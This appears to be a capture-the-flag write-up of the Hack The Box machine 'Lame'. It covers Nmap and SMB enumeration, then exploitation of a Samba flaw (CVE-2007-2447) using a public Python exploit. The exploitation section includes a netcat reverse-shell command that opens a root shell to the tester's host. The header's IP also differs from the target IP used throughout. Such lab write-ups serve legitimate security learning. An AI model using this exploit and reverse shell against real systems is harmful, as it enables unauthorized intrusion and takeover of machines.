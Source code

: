 # HTB - Lame

#### Ip: 10.10.10.171
#### Name: Lame
#### Rating: Easy

----------------------------------------------------------------------

Lame.png

### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV  10.10.10.3  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-08 09:48 CDT
Nmap scan report for 10.10.10.3
Host is up (0.061s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.31
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h56m11s, deviation: 2h49m43s, median: -3m49s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-08T10:44:55-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.37 seconds
```

Ok, looks just like FTP, SSH and SMB are open on the target.

FTP has anonymous login enabled, but there was nothing in there.

Moving over to SMB we can see we have read/write access to the `/tmp` share:

lame_smb_shares.png

Logging into the share we find a pretty generic `/tmp` folder:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ smbclient -U '' \\\\10.10.10.3\\tmp              
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun  8 10:12:56 2024
  ..                                 DR        0  Sat Oct 31 01:33:58 2020
  orbit-makis                        DR        0  Sat Jun  8 05:25:32 2024
  .ICE-unix                          DH        0  Sat Jun  8 02:58:13 2024
  vmware-root                        DR        0  Sat Jun  8 02:58:17 2024
  .X11-unix                          DH        0  Sat Jun  8 02:58:37 2024
  gconfd-makis                       DR        0  Sat Jun  8 05:25:32 2024
  5584.jsvc_up                        R        0  Sat Jun  8 02:59:14 2024
  .X0-lock                           HR       11  Sat Jun  8 02:58:37 2024
  vgauthsvclog.txt.0                  R     1600  Sat Jun  8 02:58:11 2024
```

Not much of interest here. Going back to our Nmap results I note the SMB version and look for exploits and notice there is a Metasploit module available for this https://www.exploit-db.com/exploits/16320.

Digging a bit deeper I find this repo, with a Python version of the exploit. https://github.com/Ziemni/CVE-2007-2447-in-Python

Lets give it a shot.

### Exploitation

We can fire off the exploit with no changes needed to the code with:

```
┌──(ryan㉿kali)-[~/HTB/Lame]
└─$ python smbExploit.py 10.10.10.3 139 'nc -e /bin/sh 10.10.14.31 4444'
```

And we catch a shell back in our listener as root:

lame_shell.png

Nice, we can now grab both the user.txt flag and the root.txt flag:

lame_user.png

lame_root.png

Thanks for following along!

-Ryan

---------------------------------------------------


